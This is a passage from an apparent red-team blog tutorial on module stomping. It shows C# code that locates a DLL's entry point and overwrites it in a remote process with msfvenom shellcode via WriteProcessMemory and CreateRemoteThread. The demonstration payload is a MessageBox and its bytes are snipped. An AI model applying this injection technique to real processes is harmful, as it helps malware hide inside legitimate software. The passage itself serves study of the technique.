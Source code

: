 
#### EntryPointAddress

The next thought was to find the `EntryPointAddress` of the module instead - but yet another roadblock, because the DLL was loaded without calling DllMain, the information was just not available in the `ProcessModule` data:

```text
module.EntryPointAddress
0x0000000000000000
```

> Side note:  For my sanity, I went back and loaded the DLL with `LoadLibraryA` and the information did appear.

But ok, if we call `LoadLibraryA` from our *current* process, we can get the `EntryPointAddress` that way (as the address will be the same in the target process as it is in our current process).

```c#
Win32.LoadLibraryA("xpsservices.dll");
var self = Process.GetCurrentProcess();

IntPtr entryPointAddress;

foreach (ProcessModule module in self.Modules)
{
    if (module.ModuleName.Equals("xpsservices.dll", StringComparison.OrdinalIgnoreCase))
    {
        entryPointAddress = module.EntryPointAddress;
        break;
    }
}
```

```text
module.EntryPointAddress
0x00007ffd4febf3a0
```

Now if we write some shellcode at this address, we pop a MessageBox!

```c#
// msfvenom -p windows/messagebox EXITFUNC=thread -f csharp
var sc = new byte[323] {  SNIP };

Win32.WriteProcessMemory(process.Handle, entryPointAddress, sc, (uint)sc.Length, out UIntPtr _);
Win32.CreateRemoteThread(process.Handle, IntPtr.Zero, 0, entryPointAddress, IntPtr.Zero, 0, IntPtr.Zero);
```

![](/images/module-stomping/msgbox-entry.png "MessageBox at EntryPointAddress")

#### Exported Functions

If you don't fancy writing over the `EntryPointAddress`, writing over any of the exported functions is another option.  `xpsservices.dll` only exports two functions:
